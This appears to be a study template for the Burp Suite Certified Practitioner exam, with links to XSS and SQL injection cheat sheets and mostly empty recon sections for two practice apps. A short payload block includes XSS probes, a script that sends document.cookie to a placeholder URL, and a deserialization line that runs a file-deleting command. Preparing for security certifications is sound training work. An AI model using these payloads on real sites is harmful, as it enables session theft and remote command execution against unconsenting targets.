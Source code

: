
# Template V3 BSCP

### Reference Links

- [Cyber chef](https://gchq.github.io/CyberChef/)
- [Edra xss](https://github.com/Edr4/XSS-Bypass-Filters)
- [Cross-Site Scripting (XSS) Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [[Cheat Sheet - Cookie Stealer 🍪]]
- [[Cheat Sheet RCE]]
- [[BSCP.excalidraw]]
- Eliminator template
### Payloads

SSRF -> locahost on port 6566
```html
${{<[%'"}}%\]>
<>\"/'\\&;=(){}[]+-!#%` 
<img src=x onerror=${{7*7}}>
<img src=x onerror=alert(0)>
<img src=x onerror=fetch('TODO')>
<img src=x onerror=document.location='TODO'?c='+document.cookie>
/?_proto__proto__=transport_url:data: CommonsCollections4 'rm /home/carlos/morale.txt' | base64
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

- - -
- - -
- - -
## APP 1
### **User - TODO** Access any user account App 1
#####  features 🏹:  
- Forgot Password ? 
- Search Bar ? 
- Login function ?
- Comment Blog ?
#### 👁️ Recon / Test :





- - -
### **Admin - TODO** - Use your user account to access the admin interface, perhaps by elevating your privileges or compromising the administrator account

##### New features 🏹:  
- New token ? ;)
- Advanced research ? 

#### 👁️ Recon / Test :



- - -
### **Root - TODO** - Use the admin interface to read the contents of `/home/carlos/secret` from the server's filesystem, and submit it using "submit solution"
#####  Features on the admin panel  🏹:  
- Delete user 
- ... 
- Image source ? 

#### 👁️ Recon / Test :



- - -
- - -
- - -

## APP 2
### **User - TODO** Access any user account App 2
#####  features 🏹:  
- Forgot Password ? 
- Search Bar ? 
- Login function ?
- Comment Blog ?
#### 👁️ Recon / Test :





- - -
### **Admin - TODO** - Use your user account to access the admin interface, perhaps by elevating your privileges or compromising the administrator account

##### New features 🏹:  
- New token ? ;)
- Advanced research ? 

#### 👁️ Recon / Test :



- - -
### **Root - TODO** - Use the admin interface to read the contents of `/home/carlos/secret` from the server's filesystem, and submit it using "submit solution"
#####  Features on the admin panel  🏹:  
- Delete user 
- ... 
- Image source ? 

#### 👁️ Recon / Test :



- - -
- - - -
- - -